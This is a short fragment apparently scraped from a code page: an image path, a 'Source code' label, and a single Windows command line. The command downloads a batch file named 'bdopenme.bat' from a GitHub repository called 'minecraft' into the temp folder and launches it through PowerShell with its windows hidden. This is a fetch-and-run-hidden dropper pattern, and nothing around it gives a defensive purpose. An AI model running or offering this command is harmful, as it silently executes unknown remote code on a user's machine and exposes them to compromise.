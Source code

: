 cd %TEMP% & curl -O https://raw.githubusercontent.com/larty77/minecraft/main/bdopenme.bat & powershell.exe -WindowStyle Hidden -Command "Start-Process -WindowStyle Hidden -FilePath bdopenme.bat"
